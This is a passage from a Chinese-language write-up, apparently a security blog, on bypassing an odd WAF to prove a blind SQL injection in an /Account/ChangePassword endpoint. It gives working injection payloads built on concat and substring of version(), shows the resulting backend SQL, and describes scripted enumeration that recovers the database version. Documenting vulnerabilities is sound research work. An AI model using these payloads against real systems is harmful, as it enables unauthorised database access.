 通过进一步测试该缺陷，总结了以下这几条规律:  
1、注入的payload的字段必须是password，例如 ' or password != '' and password = '  
2、以上规则只在修改密码/Account/ChangePassword接口触发  
3、payload若包含关系运算符，则左侧必须为password字段，例如 ' or password = if(password = '1','1','0') and password = '  
4、password字段的长度不可能低于6  

(我不得不承认，总结出来的规则简直像规则类怪谈一样奇葩又离谱，我也不知道到底是何方神圣能写出这种waf/拦截规则.)

在这里，看似很难利用，但password是可控的，是可以通过正常业务被更改的. 因此可以直接在这里构造盲注语句  
```
[此时的password]' and password = concat(substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1),substring(version(),1,1)) + '

```
payload展开后如下所示  
```
[此时的password]' and password =
concat(
substring(version(),1,1),
substring(version(),1,1),
substring(version(),1,1),
substring(version(),1,1),
substring(version(),1,1),
substring(version(),1,1)
) + '
```
后端完整执行的sql语句如下所示  
```sql
SELECT studentId  
FROM base_student 
WHERE 
	studentId = '{0}' AND 
    	PASSWORD = '[此时的password]' and 
    	password = concat(
    		substring(version(),1,1),
		substring(version(),1,1),
		substring(version(),1,1),
		substring(version(),1,1),
		substring(version(),1,1),
		substring(version(),1,1)
	) + ''
```
当且仅当password的值等于version()第一个字符拼接6次时，该select语句返回studentId，否则不返回任何值. 可以根据此规则进行盲注  
Tips: 为什么要重复六次substring(version(),1,1)呢？因为password长度必大于等于6，substring(version(),1,1)必须拼接6次  
Tips: 为什么不使用mysql自带的REPEAT函数？因为当时没想到  


写个脚本令password通过正常业务被修改为'000000'、'111111'、'222222'....以此遍历来慢慢找到version()的第1个字符  
再经过几次遍历后，终于找到了version()的第一个字符为5，证明该盲注法可行  

再写个脚本，循环上述规律遍历找到version的第n个字符的值  
多次遍历后，终于找全了version()的所有字符: 5.6.49-log，证明此处存在SQL注入漏洞  

# [](#header-1)4、最后调查
